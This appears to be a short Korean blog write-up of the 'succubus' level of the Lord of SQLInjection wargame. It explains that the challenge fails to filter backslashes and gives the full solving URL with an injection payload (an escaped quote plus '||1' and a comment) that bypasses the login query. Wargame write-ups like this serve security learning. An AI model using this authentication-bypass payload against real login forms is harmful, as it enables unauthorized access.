 ```yaml
---
layout: post
title: LOS SUCCUBUS 
date: 2015-10-23 00:46:00 +0900
category: Hacking
---
```


```
select id from prob_succubus where id='' and pw=''
```



이렇게 생겼지만 잘보면 \를 필터링 안하고 있다.



'앞에 \가 붙어버리면 다른 문자로 인식해버리기 때문에 





```
id=' \' and pw=' ' 
```

저 부분을 전부 id로 인식해 버린다. 즉 뒤에다가 || 연산만 더해주면 끝



```
http://los.sandbox.cash/chall/succubus_1e73ac44ec838508bd2b2ce2026af8cf.php?id=\&pw=||1%23
```



뒤에를 주석처리해주면 된다.



